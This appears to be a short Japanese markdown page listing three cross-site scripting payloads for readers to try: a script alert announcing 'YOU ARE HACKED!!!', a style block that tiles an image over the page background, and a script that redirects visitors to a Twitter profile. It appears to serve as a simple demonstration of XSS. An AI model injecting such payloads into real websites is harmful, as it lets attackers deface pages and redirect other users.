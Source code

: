 # XSS の例

色々あります。ぜひ試してみてください。

## アラートを出す

```css
<script>alert("YOU ARE HACKED!!!");</script>
```

## 背景をおかしくする

```css
<style>
body {
  background-image: url("https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png");
  background-repeat: repeat;
}
</style> 
```

## 特定のサイトに飛ばす

```css
<script>window.location.href = 'https://twitter.com/huitgroup';</script>
```
